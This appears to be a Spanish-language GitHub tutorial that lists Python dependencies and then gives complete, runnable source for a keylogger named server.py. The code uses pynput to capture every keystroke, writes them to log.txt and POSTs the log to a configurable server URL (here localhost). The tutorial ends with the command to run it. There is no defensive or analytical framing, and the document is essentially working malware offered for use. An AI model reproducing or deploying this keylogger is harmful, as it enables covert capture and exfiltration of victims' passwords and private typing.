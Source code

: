 ##  Instalacion de librerias 

> Creacion del archivo para las librerias

```
requirements.txt
```

> Codigo del Archivo

```
altgraph==0.17.3
certifi==2022.12.7
charset-normalizer==3.0.1
idna==3.4
pefile==2023.2.7
pyinstaller==5.8.0
pyinstaller-hooks-contrib==2023.0
pynput==1.7.6
pywin32-ctypes==0.2.0
requests==2.28.2
six==1.16.0
urllib3==1.26.14

```


> Instalacion de las Librerias

```python
pip install -r ".\requirements.txt"
```
---------------------------------
##  Copiar el codigo para el Keylogger

> Creamos el archivo para el Keylogger
```
server.py
```

> Codigo del Archivo

```
import requests
from pynput.keyboard import Key, Listener

server_url = "http://localhost:8080/log"

keys = []


def presionar_tecla(key):
    keys.append(key)
    convertir_string(keys)


def convertir_string(keys):
    with open("log.txt", "w+") as logfile:
        for key in keys:
            key = str(key).replace("'", "")
            logfile.write(key)

        # After writing the keys to the file, read the contents of the file and send it to the server
        logfile.seek(0)
        contents = logfile.read()
        enviar_datos(contents)


def enviar_datos(datos):
    try:
        # POST the data to the server
        response = requests.post(server_url, data=datos)
        if response.status_code == 200:
            print("Datos enviados correctamente")
        else:
            print(
                f"Error al enviar datos al servidor. Código de respuesta: {response.status_code}"
            )
    except requests.exceptions.RequestException as e:
        print(f"No se pudo conectar con el servidor: {e}")


def soltar_tecla(key):
    if key == Key.esc:
        return False


with Listener(on_press=presionar_tecla, on_release=soltar_tecla) as listener:
    listener.join()

```

> Ejecutamos el Keylogger
```
python server.py
```